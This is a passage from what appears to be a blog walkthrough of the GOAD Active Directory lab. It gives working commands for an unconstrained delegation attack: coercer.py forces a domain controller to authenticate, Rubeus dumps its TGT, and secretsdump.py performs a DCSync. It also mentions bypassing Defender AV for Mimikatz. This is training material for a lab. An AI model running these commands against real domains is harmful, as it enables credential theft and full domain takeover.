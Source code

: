 - And now force a coerce of the DC kingslanding to the DC winterfell.

```bash
python3 coercer.py -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell
```

- We look on the triage again :

```powershell
[Rubeus.Program]::MainString("triage")
```

- And now the tgt of kingslanding is present

![deleg_unconcstrained_after_coerce.png](/assets/blog/GOAD/deleg_unconcstrained_after_coerce.png)


- To extract it (relaunch coercer and 1 sec later launch the following dump command): (i don't know why but the rubeus monitor mode doesn't want to run in execute assembly)

```
[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");
```

![deleg_unconcstrained_dump.png](/assets/blog/GOAD/deleg_unconcstrained_dump.png)

- We now have the TGT of the domain controller

- Let's continue on linux to pass the ticket and launch dcsync with secretdump :
  - copy the ticket without space and return line (in vim i do : `:%s/\s*\n\s*//g`)
  - convert the ticket to ccache
  - use the kerberos ticket and launch secretdump

```bash
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/workspace/unconstrained/ticket.ccache
secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```

![deleg_unconcstrained_secrets_dump.png](/assets/blog/GOAD/deleg_unconcstrained_secrets_dump.png)

> Another way of exploitation, is to do a ptt with Rubeus and launch a dcsync with Mimikatz but this implies to run Mimikatz on Winterfell and bypass the defender AV

> Unless you didn't notice, the unconstrained delegation abuse was here exploited to pass from the child to the parent domain ;) 
{: .prompt-tip }

## Constrained Delegation

- Find constrained delegation with bloodhound :

```
MATCH p=(u)-[:AllowedToDelegate]->(c) RETURN p
```

![delegation_bh_constrain.png](/assets/blog/GOAD/delegation_bh_constrain.png)
